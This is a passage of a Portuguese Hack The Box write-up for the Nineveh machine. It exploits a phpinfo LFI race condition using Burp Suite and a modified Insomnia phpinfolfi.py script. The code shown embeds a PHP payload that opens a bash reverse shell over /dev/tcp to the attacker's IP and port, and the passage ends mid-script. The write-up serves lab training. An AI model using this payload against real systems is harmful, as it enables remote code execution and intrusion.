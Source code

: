 Vou demonstrar aqui pegando uma requisição para /info.php no BurpSuite e modificando para uma requisição POST com qualquer lixo

> Pegar um requisição para info.php, modificar para POST e acrescentar lixo nela

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nineveh/N_info1.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nineveh/N_info2.png)

Mandamos pro Repetar

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nineveh/N_info3.png)

Alteramos e enviamos

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nineveh/N_info4.png)

Verificamos que foi "salva" no servidor

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nineveh/N_info5.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nineveh/N_info6.png)

Show! O arquivo está no servidor. Esse arquivo LIXO.txt só fica poucos segundos, mas eu posso ganhar a corrida e acessar ele antes de ele ir pro pau. O `Insomnia` colocou uma porrada de padding nos headers HTTP pra aumentar o tempo que o arquivo fica no servidor, dando tempo pro atacante acessar ele antes dele se deletar

> Vamos explorar!

O Insomnia também fez um script para poder explorar essa falha, ele está disponível para download aqui:

> https://www.insomniasec.com/downloads/publications/phpinfolfi.py

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nineveh/N_info7.png)

Tive que realizar algumas alterações no código pra ele funcionar, por que nem tudo são flores...

As alterações foram:

Adicionei no topo do código as seguintes variáveis

```
local_ip = "10.10.16.119"
local_port = 443
phpsessid = "lp3drfpmomqfuvn9ss64ag0nm6"
```

Esse phpsessid precisa ser um válido, então tem que pegar bem antes de executar o script, pq ele muda rapidamente

Fiz algumas modificações na função setup

```
def setup(host, port):
    TAG="Security Test"
    PAYLOAD="""%s\r <?php system("bash -c 'bash -i >& /dev/tcp/%s/%d 0>&1'");?>\r""" % (TAG, local_ip, local_port)
    REQ1_DATA="""-----------------------------7dbff1ded0714\r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
Content-Type: text/plain\r
\r
%s
-----------------------------7dbff1ded0714--\r""" % PAYLOAD
    padding="A" * 5000
    REQ1="""POST /info.php?a="""+padding+""" HTTP/1.1\r
Cookie: PHPSESSID=""" + phpsessid + """; othercookie="""+padding+"""\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
```